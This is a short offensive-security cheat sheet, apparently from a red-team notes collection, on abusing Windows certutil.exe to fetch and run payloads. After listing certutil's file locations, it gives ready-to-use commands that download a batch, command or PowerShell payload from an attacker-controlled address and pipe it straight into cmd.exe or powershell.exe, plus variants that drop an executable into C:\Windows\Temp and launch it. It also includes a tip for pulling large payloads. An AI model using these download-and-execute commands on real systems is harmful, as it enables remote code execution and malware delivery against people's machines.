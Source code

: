 # CertUtil

## 01 - Common Files

```
C:\Windows\System32\certutil.exe
C:\Windows\SysWOW64\certutil.exe
```

## 02 - Execute Payloads

### 2.1 - Fileless Code Execution

```
C:\> certutil.exe -urlcache -f http[s]://<IP>/payload.bat | cmd.exe

C:\> certutil.exe -urlcache -f http[s]://<IP>/payload.cmd | cmd.exe

C:\> certutil.exe -urlcache -f http[s]://<IP>/payload.ps1 | powershell.exe
```

### 2.2 - Dropping On Disk

Download payload and execute it.

```
C:\> certutil.exe -urlcache -f http[s]://<IP>/payload.exe C:\Windows\Temp\payload.exe  & C:\Windows\Temp\payload.exe
```

Download the large payload.

> [!TIP] Downloading Large Payloads
> The `-split` flag is great for downloading a large payload.

```
C:\> certutil.exe -urlcache -split -f http[s]://<IP>/payload.exe C:\Windows\Temp\payload.exe  & C:\Windows\Temp\payload.exe
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/Batch]]